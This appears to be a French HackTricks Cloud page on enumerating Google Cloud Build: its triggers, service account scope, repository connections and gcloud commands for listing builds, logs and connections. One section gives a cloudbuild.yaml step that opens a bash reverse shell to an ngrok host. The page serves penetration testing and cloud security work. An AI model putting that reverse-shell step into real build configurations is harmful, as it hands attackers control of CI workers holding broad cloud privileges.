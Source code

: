 # GCP - Énumération de Cloud Build

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Informations de base

Google Cloud Build est une plateforme CI/CD gérée qui **automatise les processus de construction et de déploiement de logiciels**, s'intégrant avec **les dépôts de code source** et prenant en charge un large éventail de langages de programmation. Elle **permet aux développeurs de construire, tester et déployer du code automatiquement** tout en offrant la flexibilité de personnaliser les étapes de construction et les workflows.

Chaque déclencheur Cloud Build est **lié à un dépôt Cloud ou directement connecté à un dépôt externe** (Github, Bitbucket et Gitlab).

{% hint style="success" %}
Je n'ai trouvé aucun moyen de voler le jeton Github/Bitbucket d'ici ou des dépôts Cloud car lorsque le dépôt est téléchargé, il est accédé via une URL [https://source.cloud.google.com/](https://source.cloud.google.com/) et Github n'est pas accédé par le client.
{% endhint %}

### Événements

Le Cloud Build peut être déclenché si :

* **Push sur une branche** : Spécifiez la branche
* **Push d'un nouveau tag** : Spécifiez le tag
* **Pull request** : Spécifiez la branche qui reçoit la PR
* **Invocation manuelle**
* **Message Pub/Sub** : Spécifiez le sujet
* **Événement Webhook** : Exposera une URL HTTPS et la requête doit être authentifiée avec un secret

### Exécution

Il y a 3 options :

* Un yaml/json **spécifiant les commandes** à exécuter. Habituellement : `/cloudbuild.yaml`
* Seul celui qui peut être spécifié "en ligne" dans la console web et dans le cli
* Option la plus courante
* Pertinent pour un accès non authentifié
* Un **Dockerfile** à construire
* Un **Buildpack** à construire

### Permissions SA

Le **compte de service a le scope `cloud-platform`**, il peut donc **utiliser tous les privilèges.** Si **aucun SA n'est spécifié** (comme lors de la soumission), le **SA par défaut** `<proj-number>@cloudbuild.gserviceaccount.com` sera **utilisé.**

Par défaut, aucune permission n'est accordée, mais il est assez facile d'en donner :

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Approbations

Il est possible de configurer un Cloud Build pour **exiger des approbations pour l'exécution des constructions** (désactivé par défaut).

### Connexions & Dépôts

Les connexions peuvent être créées sur :

* **GitHub** : Il affichera une invite OAuth demandant la permission de **obtenir un jeton Github** qui sera stocké dans le **Gestionnaire de secrets.**
* **GitHub Enterprise** : Il demandera d'installer une **GithubApp**. Un **jeton d'authentification** de votre hôte GitHub Enterprise sera créé et stocké dans ce projet comme un secret du **Gestionnaire de secrets**.
* **GitLab / Enterprise** : Vous devez **fournir le jeton d'accès API et le jeton d'accès API en lecture** qui seront stockés dans le **Gestionnaire de secrets.**

Une fois une connexion générée, vous pouvez l'utiliser pour **lier des dépôts auxquels le compte Github a accès**.

Cette option est disponible via le bouton :

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Notez que les dépôts connectés avec cette méthode sont **uniquement disponibles dans les déclencheurs utilisant la 2ème génération.**
{% endhint %}

### Connecter un dépôt

Ce n'est pas la même chose qu'une **`connexion`**. Cela permet **différentes** manières d'obtenir **l'accès à un dépôt Github ou Bitbucket** mais **ne génère pas d'objet de connexion, mais cela génère un objet de dépôt (de 1ère génération).**

Cette option est disponible via le bouton :

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Stockage

Parfois, Cloud Build va **générer un nouveau stockage pour stocker les fichiers pour le déclencheur**. Cela se produit par exemple dans l'exemple que GCP offre avec :
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Un bucket Storage nommé [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) est créé pour stocker un `.tgz` avec les fichiers à utiliser.

### Obtenir un shell
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### Énumération

Vous pourriez trouver **des informations sensibles dans les configurations de build et les journaux**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Élévation de privilèges

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Accès non authentifié

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Post-exploitation

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> !</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-moi** sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
